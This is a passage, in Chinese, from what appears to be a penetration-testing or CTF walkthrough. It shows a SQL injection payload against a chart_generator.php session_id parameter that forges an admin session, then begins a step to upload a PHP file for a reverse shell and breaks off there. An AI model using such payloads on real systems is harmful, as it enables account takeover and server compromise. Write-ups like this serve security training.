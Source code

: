       + 这里只有`id_usuario|s:6:"daniel"`和`id_usuario|s:4:"matt"`,没有找到`admin`相关的

  7. 尝试构造访问`admin`的payload：

      ```
      /include/chart_generator.php?session_id=1' union select 1,2,'id_usuario|s:5:"admin";'--+
      ```
      ![](/style/image/2024-01-31-15-04-31.png)

  8. 再次访问http://localhost:
      
      ![](/style/image/2024-01-31-15-05-44.png)

+ 查找文件上传位置：`Admin tools > File manager`，上传php文件反弹shell:
